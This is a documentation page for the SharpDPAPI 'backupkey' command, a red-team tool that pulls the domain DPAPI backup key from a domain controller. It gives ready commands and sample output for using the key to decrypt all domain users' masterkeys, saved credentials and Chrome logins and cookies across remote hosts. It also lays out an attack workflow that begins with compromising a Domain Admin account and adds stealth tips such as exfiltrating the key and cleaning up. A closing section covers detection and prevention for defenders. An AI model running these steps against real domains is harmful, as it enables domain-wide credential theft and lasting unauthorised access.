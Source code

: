 ```yaml
---
title: 'backupkey'
description: 'Retrieve domain DPAPI backup key from domain controller'
icon: 'download'
---
```


## Overview

The **backupkey** command retrieves the domain DPAPI backup key from a domain controller using the **LsaRetrievePrivateData** API. This private key can decrypt masterkeys for any domain user and never changes.

<Warning>
  This command requires Domain Admin (or equivalent) privileges to retrieve the backup key from the domain controller.
</Warning>

## Basic Usage

```bash
# Retrieve from current domain controller
SharpDPAPI.exe backupkey

# Specify domain controller
SharpDPAPI.exe backupkey /server:dc.domain.com

# Save to file
SharpDPAPI.exe backupkey /file:key.pvk

# Prevent base64 wrapping
SharpDPAPI.exe backupkey /nowrap
```

## Command Arguments

| Argument | Description |
|----------|-------------|
| `/server:SERVER.domain.com` | Specify domain controller (auto-detected if not provided) |
| `/file:key.pvk` | Save backup key to file instead of displaying |
| `/nowrap` | Prevent wrapping base64 output (display in single line) |

## Why The Backup Key Is Powerful

<CardGroup cols={2}>
  <Card title="Never Changes" icon="infinity">
    The domain backup key is generated once and never rotates
  </Card>
  <Card title="Domain-Wide" icon="globe">
    Works for ALL domain users across the entire domain
  </Card>
  <Card title="Decrypt Anything" icon="unlock">
    Can decrypt any user's DPAPI protected data
  </Card>
  <Card title="Persistent Access" icon="clock">
    Maintains access even after password changes
  </Card>
</CardGroup>

## Example: Retrieve Backup Key

```bash
SharpDPAPI.exe backupkey
```

**Output:**
```
[*] Action: Retrieve domain DPAPI backup key

[*] Using current domain controller  : PRIMARY.testlab.local
[*] Preferred backupkey Guid         : 32d021e7-ab1c-4877-af06-80473ca3e4d8
[*] Full preferred backupKeyName     : G$BCKUPKEY_32d021e7-ab1c-4877-af06-80473ca3e4d8
[*] Key :
      HvG1sAAAAAABAAAAAAAAAAAAAACUBAAABwIAAACkAABSU0EyAAgAAA
      EAAQADYjk2xX6BGbvXhUKJwq0M9BqvzaKLLLfSU... (truncated)
```

## Example: Save to File

```bash
SharpDPAPI.exe backupkey /server:primary.testlab.local /file:key.pvk
```

**Output:**
```
[*] Action: Retrieve domain DPAPI backup key

[*] Using server                     : primary.testlab.local
[*] Preferred backupkey Guid         : 32d021e7-ab1c-4877-af06-80473ca3e4d8
[*] Full preferred backupKeyName     : G$BCKUPKEY_32d021e7-ab1c-4877-af06-80473ca3e4d8
[*] Backup key written to            : key.pvk
```

<Tip>
  Save the backup key to a file for reuse. You won't need to retrieve it again.
</Tip>

## Using The Retrieved Backup Key

Once you have the backup key, use it with other SharpDPAPI commands:

<Tabs>
  <Tab title="Base64 Key">
    ```bash
    # Use inline base64 key
    SharpDPAPI.exe triage /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...
    SharpDPAPI.exe masterkeys /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...
    SharpDPAPI.exe credentials /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...
    ```
  </Tab>

  <Tab title="Key File">
    ```bash
    # Use key file
    SharpDPAPI.exe triage /pvk:key.pvk
    SharpDPAPI.exe masterkeys /pvk:key.pvk
    SharpDPAPI.exe credentials /pvk:key.pvk
    ```
  </Tab>

  <Tab title="Remote Systems">
    ```bash
    # Triage remote systems with backup key
    SharpDPAPI.exe triage /pvk:key.pvk /server:workstation1.domain.com
    SharpDPAPI.exe credentials /pvk:key.pvk /server:workstation2.domain.com
    ```
  </Tab>

  <Tab title="SharpChrome">
    ```bash
    # Use with SharpChrome
    SharpChrome.exe logins /pvk:key.pvk
    SharpChrome.exe cookies /pvk:key.pvk
    SharpChrome.exe statekeys /pvk:key.pvk
    ```
  </Tab>
</Tabs>

## Typical Workflow

<Steps>
  <Step title="Obtain Domain Admin">
    Compromise an account with Domain Admin or equivalent privileges
  </Step>

  <Step title="Retrieve Backup Key">
    ```bash
    SharpDPAPI.exe backupkey /file:backup.pvk
    ```
  </Step>

  <Step title="Triage Local System">
    ```bash
    SharpDPAPI.exe triage /pvk:backup.pvk
    SharpChrome.exe logins /pvk:backup.pvk
    ```
  </Step>

  <Step title="Triage Remote Systems">
    ```bash
    # File servers, workstations, etc.
    SharpDPAPI.exe triage /pvk:backup.pvk /server:fileserver.domain.com
    SharpDPAPI.exe triage /pvk:backup.pvk /server:workstation.domain.com
    ```
  </Step>

  <Step title="Maintain Access">
    Keep the backup key secure - it provides persistent domain-wide DPAPI decryption capability
  </Step>
</Steps>

## Technical Details

### Storage Location

The backup key is stored in Active Directory as an LSA secret:
```
G$BCKUPKEY_{GUID}
```

### Retrieval Method

SharpDPAPI uses the **LsaRetrievePrivateData** API, the same method used by Mimikatz:
- Connects to domain controller
- Authenticates with current credentials
- Retrieves the preferred backup key GUID
- Extracts the RSA private key

### Key Properties

- **Algorithm**: RSA (typically 2048-bit)
- **Format**: Microsoft PRIVATEKEYBLOB structure
- **Persistence**: Never rotates unless manually regenerated
- **Scope**: All domain users

## Converting Key Formats

The backup key can be used in different formats:

<Tabs>
  <Tab title="For SharpDPAPI">
    ```bash
    # Use directly as base64 or .pvk file
    SharpDPAPI.exe triage /pvk:key.pvk
    ```
  </Tab>

  <Tab title="For Mimikatz">
    ```bash
    # Decode base64 to binary .pvk file
    [IO.File]::WriteAllBytes("key.pvk", [Convert]::FromBase64String($base64key))

    # Use with Mimikatz
    mimikatz# dpapi::masterkey /in:masterkey_file /pvk:key.pvk
    ```
  </Tab>
</Tabs>

## Detection Considerations

<Warning>
  Retrieving the domain backup key is a high-value operation that should be detected and alerted.
</Warning>

### Network Detection

- **MS-BKRP Protocol**: Backup Key Remote Protocol usage
- **RPC Calls**: LsaRetrievePrivateData calls to domain controller
- **Event ID 4662**: Access to sensitive AD objects

### Host-Based Detection

- **Process Execution**: SharpDPAPI.exe or similar tools
- **API Calls**: LsaRetrievePrivateData invocations
- **Privilege Usage**: SeBackupPrivilege or equivalent

### Event Log Indicators

Monitor domain controllers for:
```
Event ID: 4662
Object Type: Secret Object
Access Mask: Read Property
Object Name: G$BCKUPKEY_*
```

### Defensive Measures

<Accordion title="Detection Strategies">
  - Monitor for Event ID 4662 with object name containing "BCKUPKEY"
  - Alert on MS-BKRP protocol usage
  - Track LsaRetrievePrivateData API calls
  - Monitor for privileged account access to sensitive LSA secrets
</Accordion>

<Accordion title="Prevention Strategies">
  - Strictly control Domain Admin privileges
  - Implement tiered administration model
  - Use Protected Users group for high-value accounts
  - Enable advanced audit policies for object access
  - Consider rotating backup key periodically (requires planning)
</Accordion>

## Related Commands

<CardGroup cols={2}>
  <Card title="masterkeys" icon="key" href="/ghostpack-docs/SharpDPAPI-mdx/commands/masterkeys">
    Decrypt user masterkeys with backup key
  </Card>
  <Card title="triage" icon="list-check" href="/ghostpack-docs/SharpDPAPI-mdx/commands/triage">
    Comprehensive user DPAPI triage
  </Card>
  <Card title="credentials" icon="id-card" href="/ghostpack-docs/SharpDPAPI-mdx/commands/credentials">
    Decrypt credentials with backup key
  </Card>
  <Card title="machinetriage" icon="server" href="/ghostpack-docs/SharpDPAPI-mdx/commands/machinetriage">
    Triage machine DPAPI data
  </Card>
</CardGroup>

## Tips

<Accordion title="Operational Security">
  - Retrieve the backup key once and reuse it
  - Store securely - it's valid indefinitely
  - Use `/file` to avoid base64 in command history
  - Consider exfiltrating key over encrypted channel
  - Clean up temporary files after use
</Accordion>

<Accordion title="Troubleshooting">
  **Access Denied:**
  - Verify you have Domain Admin privileges
  - Check network connectivity to domain controller
  - Ensure domain controller is reachable

  **No backup key found:**
  - Domain must have DPAPI enabled (default in AD)
  - Verify the domain controller is functioning properly
  - Try specifying DC explicitly with `/server`
</Accordion>

## Mimikatz Equivalent

```bash
# Mimikatz command
mimikatz# lsadump::backupkeys /system:dc.domain.com /export

# SharpDPAPI equivalent
SharpDPAPI.exe backupkey /server:dc.domain.com /file:key.pvk
```

Both retrieve the same backup key, just in different formats.
